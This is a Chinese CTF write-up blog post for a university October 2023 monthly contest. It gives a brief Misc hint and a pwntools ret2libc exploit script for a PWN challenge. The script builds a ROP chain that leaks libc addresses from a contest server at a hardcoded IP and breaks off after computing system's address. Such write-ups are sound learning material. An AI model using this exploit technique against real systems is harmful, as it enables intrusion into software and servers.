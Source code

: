 ```yaml
---
title: "NEUQCSA-2023-10月赛题解"
categories: NEUQCSA
tag: Pwn
---
```

markdown出问题的话直接看链接：https://zcoi.github.io/blogs/CTF/monthgame2310/
# 解题情况
![](https://zcoi.github.io/blogs/CTF/monthgame2310/self1.png)
![](https://zcoi.github.io/blogs/CTF/monthgame2310/self2.png)
![](https://zcoi.github.io/blogs/CTF/monthgame2310/misc.png)
![](https://zcoi.github.io/blogs/CTF/monthgame2310/web.png)
![](https://zcoi.github.io/blogs/CTF/monthgame2310/pwn.png)
![](https://zcoi.github.io/blogs/CTF/monthgame2310/cry.png)


# 解题思路
## Misc
### level1-Login
直接看html，发现base64加密的一串。直接解密就是flag



## PWN
### ret2libc
Q:请嗯造libc
A:我嗯造libc

```python
from pwn import*
context(arch='amd64',os='linux')
context.log_level='debug'
context.terminal=['tmux','splitw','-h']
elf=ELF('./pwn')
libc=ELF('./libc-2.31.so')
# p=process('./pwn')
# p=process(['./ld-2.31.so', './pwn'], env={"LD_PRELOAD":'./libc-2.31.so'})
# gdb.attach(p)
p=remote('8.130.110.158',2110)
 
func_addr=elf.got['write']
write_addr=elf.plt['write']
 
pop_rdi=0x4012a3
pop_rsi2=0x4012a1
ret=0x40101a
vuln=0x4011db
 
payload= b'a'*0x10+p64(pop_rdi)+p64(1)+p64(pop_rsi2)+p64(func_addr)+p64(0xdeadbeef)+p64(write_addr)+p64(vuln)
p.sendlineafter('voice :',payload)
p.recv()
func_addr=u64(p.recv(6).ljust(8,b'\x00'))
base=func_addr-libc.symbols['write']
system_addr=base+libc.symbols['system']
```
